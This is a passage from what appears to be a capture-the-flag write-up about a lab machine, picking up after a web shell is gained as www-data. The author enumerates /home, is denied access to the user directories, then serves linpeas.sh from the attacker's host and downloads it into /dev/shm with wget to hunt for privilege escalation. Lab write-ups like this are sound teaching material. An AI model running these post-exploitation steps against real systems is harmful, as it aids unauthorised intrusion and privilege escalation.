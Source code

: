 ```bash
            return true;
        }
    }

    return false;
}
?>
```

<br>
<h3>/home</h3>

```bash
www-data@routerpanel:/var/www/html/myrouterpanel$ cd /home
www-data@routerpanel:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Apr 16  2023 .
drwxr-xr-x 20 root   root   4096 Apr 16  2023 ..
drwx------ 17 athena athena 4096 Jul 31  2023 athena
drwx------ 15 ubuntu ubuntu 4096 May 23  2023 ubuntu
```

<br>
<h3><code>athena</code> and <code>ubuntu</code> = Permission denied</h3>

```bash
www-data@routerpanel:/home$ cd athena
bash: cd: athena: Permission denied
```

```bash
www-data@routerpanel:/home$ cd ubuntu
bash: cd: ubuntu: Permission denied
```

<br>
<h3>linpeas.sh</h3>

```bash
:~/Athena# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<br>

```bash
www-data@routerpanel:/dev/shm$ wget http://xx.xxx.xxx.xxx:8000/linpeas.sh
...
linpeas.sh          100%[===================>] 227.91K  --.-KB/s    in 0.001s  
```

<br>

```bash
www-data@routerpanel:/dev/shm$ chmod +x linpeas.sh
```

<br>
